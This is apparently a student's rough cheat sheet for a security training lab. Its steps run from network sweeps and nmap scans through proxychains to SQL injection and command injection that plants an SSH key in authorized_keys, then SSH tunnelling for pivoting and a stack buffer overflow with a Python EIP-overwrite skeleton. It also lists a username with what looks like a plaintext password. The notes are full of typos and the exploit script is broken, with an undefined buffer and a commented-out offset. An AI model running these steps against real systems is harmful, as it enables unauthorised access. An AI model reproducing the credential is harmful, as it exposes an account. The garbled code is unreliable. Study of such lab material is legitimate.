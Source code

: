 # SecCCTC
NEW Security CCTC


OP station LINUX 10.50.21.175 

uploads 10.50.22.59/uploads for more info
______________________________
17
JORO-501-W
dSMTntzAUGo3pnS
10.50.23.20
____________________________

http://10.50.20.103:8000/challenges  < -- - challenges 



Needed commands
_______________________________________________________
1- for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done
2- proxychains nmap -Pn -sT 10.0.0.X -p 1-10000 -T5   or -iL --openm
3- proxychains nmap -Pn -sT 10.0.0.X -p 80 --script http-enum.nse    < -- finds other webpages

xfreerdp /u:student /v:localhost:RHP /dynamic-resolution +clipboar
___________________________________________

make a SSH KEY 

On opstation
ssh-keygen -t rsa -b 4096
cat .ssh/id_rua.pub
ssh www-data@ip  ( or whatever the webuser is)
9- find the userers in the /etc/password then navigate down to find the file with ls -la 
10 - move the map to the host system 

try to insert an your own key after trying tom’ OR 1 = ‘1 in both fields:
		1 -In webpage box:    < mkdir /users/home/directory/.ssh>  or other path
		2 – echo "your_public_key_here" >> /users/home/directory/.ssh/authorized_keys 
		3-  cat /users/home/directory/.ssh/authorized_keys 


  -______________________________________
  to get to second box student@ip -L 41711:192.168.28.120:4242
  then new tunnle of ssh student@127.0.0.1 -D 9050 


Buffer overflow 

AAAAAAAAAAAA in file
the type gdb
pdisas main
look at green colors (pidsas main getuserinpute or other name
now look at red 
next type r to run and give it a bunch of AAAAAAAAAAAAAAAAAAAAAAAAAA
look for EIP (Insturction Pointer)
Visit a website  to adjust the code <wiremask.eu> insert all the A's 
Get the Hex  and past it back into the wiremas.eu

next write out your python script 
_____________________________________________
on lin-ops Nano nameofprograme
#offset="a" * 62
eip = "BBBB"
eip = '\x59\x3b\xde\xf7'  <---- from back to front
#firt
#second
#third
nop = '\x90' * 10
buf = b""
print (buffer + eip + nop + nop + buff)
_____________________________________________
env - gdb func
show env
unset evn LINES
unset env COLUMNS
show env
run
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
info proc map
find /b  startAdd. EndBeforeStack,  First four values, 0xef   <start after HEAP and ehdn address BEFORE stack> 
try first, second or third address that pop up


